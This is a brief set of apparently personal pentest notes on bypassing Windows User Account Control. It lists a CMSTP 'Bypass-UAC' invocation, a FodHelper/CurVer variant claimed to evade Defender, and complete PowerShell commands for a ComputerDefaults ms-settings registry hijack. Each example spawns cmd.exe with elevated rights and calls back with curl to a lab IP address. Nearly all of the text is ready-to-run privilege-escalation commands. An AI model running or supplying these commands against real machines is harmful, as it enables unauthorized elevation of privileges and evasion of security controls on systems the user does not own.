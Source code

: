 ### CMSTP

- Invoke and run: `Bypass-UAC -Command "curl http://192.168.45.223/worked"`

### FodHelper

- uses CurVer to abuse UAC, should bypass Windows Defender (?)

### Manual Approach - ComputerDefaults

    New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
    New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "C:\Windows\System32\cmd.exe /c curl http://192.168.50.149/worked" -Force
    Start-Process "C:\Windows\System32\ComputerDefaults.exe"
